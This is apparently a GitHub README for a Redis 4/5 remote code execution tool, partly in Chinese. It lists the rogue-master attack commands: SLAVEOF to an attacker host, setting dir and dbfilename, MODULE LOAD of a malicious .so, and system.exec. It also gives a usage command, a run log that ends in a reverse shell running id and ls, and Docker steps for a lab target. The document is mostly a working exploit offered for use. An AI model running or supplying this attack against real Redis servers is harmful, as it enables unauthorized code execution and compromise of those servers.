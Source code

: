 # Redis-RCE
### remote code execute for redis4 and redis5


#### python code from https://github.com/Ridter/redis-rce

![](./redis-rce.jpg)
#####  通过加载so文件，扩展新命令system.exec进行 命令执行成功
`strings exp_lin.so |grep sys`

```
system
system.exec
sys_errlist.h
sys_nerr
sys_errlist
_sys_siglist

```

![](./redis-exec.jpg)
![](./redis-exec-result.jpg)

### system.exec
![](./redis-system-exec.jpg)

```
0x01 SLAVEOF 192.168.2.18 8989

0x02 config set dir /tmp

0x03 config set dbfilename exp_lin.so

0x04 MODULE LOAD /tmp/exp_lin.so

0x05 slaveof no one

0x06 system.exec id

���Auid=100(redis) gid=101(redis) groups=101(redis),101(redis)

```
https://redis-module-redoc.readthedocs.io/en/latest/


### Usage:

`python redis-rce.py -r 10.10.20.166 -p 6379 -L 192.168.2.18 -f exp_lin.so`

```
python redis-rce.py -r 10.10.20.166 -p 6379 -L 192.168.2.18 -f exp_lin.so
test
[*] Connecting to  10.10.20.166:6379...
[*] Listening on 192.168.2.18:21000
[*] Sending SLAVEOF command to server
Accepted connection from 192.168.2.18:3147
[*] Setting filename
[*] Tring to run payload
Accepted connection from 192.168.2.18:21000
[*] Closing rogue server...
Received backconnect, use exit to exit...
$

$ id
uid=100(redis) gid=101(redis) groups=101(redis),101(redis)
$ pwd
/tmp
$ ls
exp_lin.so
exp_osx.so
$


```



### 0x01  docker search redis5
```
docker search redis5
NAME                          DESCRIPTION                                  STARS     OFFICIAL   AUTOMATED
hareemca123/redis5            Redis 5 Alpine                               1                    
pierreprinetti/redis5         An image for redis5 Release Candidates       0                    [OK]
kusanami/redis5.0                                                          0                    
cnbbx/redis5                  redis5                                       0                    
dragonfly201270/redis5                                                     0                    
cffycls/redis5                redis5.0.5                                   0                    
supercaracal/redis5-docker    Redis 5 Container                            0                    [OK]
i3clogic/redis5                                                            0                    
netborg/redis5                Redis 5 for Kubernetes cluster               0                    
libincex/redis5               redis 5.0.3                                  0                    
debbiswal/redis5.0.4_ms_k8s                                                0                    
vadosl/redis5                                                              0                    
arthurepp/redis50m30c5db                                                   0                    
i3clogic/redis5-server                                                     0                    
arthurepp/redis5m3c1db                                                     0                    
rarfaoui/redis5                                                            0                    
damonevking/redis5.0          redis5.0基础镜像                                 0                    
zareefza/redis5                                                            0                    
rajesh6752/redis5                                                          0                    
douyu/redis504                                                             0                    
redis5/tomcat8-mohjen                                                      0                    
redis5/docker-kubernetes                                                   0                    
incu6us/redis5                Redis 5 (beta) to play with a new features   0                    [OK]
yimiding/redis5.05                                                         0                    
jeetkn/centos_redis           centos7 + redis5.0.3+ ReJson + rediSearch    0   
```
### 0x02 docker pull redis5
```
docker pull hareemca123/redis5:alpine
alpine: Pulling from hareemca123/redis5
4fe2ade4980c: Pull complete 
47fa4eeb2853: Pull complete 
4e971ebf579e: Pull complete 
e2187b6a3d91: Pull complete 
b944fad88755: Pull complete 
9b71ca914208: Pull complete 
Digest: sha256:60f6a913f606341be11686f604ef97d79be32d6ee22f5036ea592423e0950ca4
Status: Downloaded newer image for hareemca123/redis5:alpine

```
### 0x03 Start redis5 docker
```
docker run --name redis5 -d -v $PWD:/data --restart=always -p 6379:6379 hareemca123/redis5:alpine

cf1e25077f6e5f88e6ba6a5ae4bcc17e38c27a28961f52932ad7c77c3fc446d9
```


### 0x04 git clone github.com/Ridter/redis-rce


```
redis-rce# ls
exp_lin.so  exp_osx.so  README.md  redis-rce.py
```
### 参考链接：

https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf

https://github.com/Ridter
